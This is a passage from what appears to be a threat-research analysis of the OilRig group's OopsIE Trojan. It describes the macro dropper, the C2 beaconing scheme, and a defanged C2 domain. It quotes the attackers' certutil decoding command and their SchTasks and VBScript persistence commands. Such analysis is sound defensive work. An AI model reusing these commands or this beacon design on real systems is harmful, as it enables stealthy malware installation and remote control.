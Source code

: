While the decoy in Figure 2 is displayed, the macro will search the document for the delimiter ###$$$ and write the base64 encoded text that follows this delimiter to the file %APPDATA%\Base.txt. The macro then creates a scheduled task named SecurityAssist that runs after waiting one minute. The SecurityAssist task is responsible for running the following command line command that uses the Certutil application to decode the base64 encoded data in Base.txt and saves the decoded data to the file %PROGRAMDATA%\IntelSecurityAssistManager.exe:
cmd.exe /c Certutil -decode %appdata%\Base.txt %programdata%\IntelSecurityAssistManager.exe & SchTasks /Delete /F /TN SecurityAssist
The macro also creates a second scheduled task named Conhost that waits two minutes and runs a VBScript %APPDATA%\chkSrv.vbs. The macro saves the chkSrv.vbs script to the system, which is responsible for running the IntelSecurityAssistManager.exe payload (OopsIE Trojan) and cleaning up the installation by deleting the two scheduled tasks, the Base.txt file, the ThreeDollars document, and the chkSrv.vbs script.
 
OopsIE Trojan Analysis
The OopsIE Trojan delivered in these attacks is packed with SmartAssembly and further obfuscated with ConfuserEx v1.0.0. To run persistently on the system, the Trojan will first create a VBScript file:
SpecialFolder.CommonApplicationData\srvResesponded.vbs
that contains:
CreateObject("WScript.Shell").Run("%app%")
The Trojan replaces the %app% string in the above VBScript with the path to its executable. Finally, the Trojan creates a scheduled task to run itself every three minutes by running the following command on the command prompt after replacing the %path% string with the path to the srvResesponded.vbs VBScript:
SchTasks /Create /SC MINUTE /MO 3 /TN "InetlSecurityAssistManager" /TR "wscript %path%" /f
The Trojan uses HTTP to communicate with its C2 server, specifically using the InternetExplorer application object within an embedded Microsoft .NET Framework assembly called Interop.SHDocVw. The Trojan extracts and loads this embedded assembly by concatenating the contents of two resources named S1 and S2 and decompresses the resulting data using the GZipSteam class. The resulting Interop.SHDocVw .NET assembly is packed with SmartAssembly and further obfuscated using Confuser v1.9.0.0. The concatenation of resources to construct embedded assemblies is not a new technique for the OilRig group, as they used the very same technique in October 2017 in their ISMInjector tool to construct its embedded libraries Joiner.dll and Inner.dll.
By using the InternetExplorer application object, all C2 related requests will look as if they came from the legitimate browser and therefore will not contain any anomalous fields within the request, such as custom User-Agents. The OopsIE Trojan is configured to use a C2 server hosted at:
www.msoffice365cdn[.]com
The Trojan will construct specific URLs to communicate with the C2 server and parses the C2 server's response looking for content within the tags <pre> and </pre>. The initial HTTP request acts as a beacon, as shown in the image below.
 

 
As seen in the above request, the Trojan will generate a URL for its beacon with the following structure:
http://<c2 domain>/chk?<hex(Environment.UserName/Environment.MachineName)>
The Trojan will issue a request to this URL to check (hence the chk string in the URL) to see if the C2 server has a command for the Trojan to run. The C2 server will respond to the Trojan’s request by echoing the value <hex(Environment.UserName/Environment.MachineName)> if it wishes to provide additional commands. If the C2 server does not respond with the appropriate echoed data, the Trojan will create a file named srvCheckresponded.tmp in the SpecialFolder.CommonApplicationData folder and write nothing to it before exiting.
If the C2 server provides the appropriate echoed data in the response, the Trojan attempts to determine what  commands the C2 wishes to run by issuing a request to the following URL:
http://<c2 domain>/what?<hex(Environment.UserName/Environment.MachineName)>
After issuing the what command, the Trojan will parse the C2's response for the string Oops, which the Trojan will treat as the C2 making a mistake and will exit. Otherwise, the Server will respond with a command followed by a set of parameters, split up by the delimiter <>:
[command]<>[parameters for command in hexadecimal format]
The available commands are:
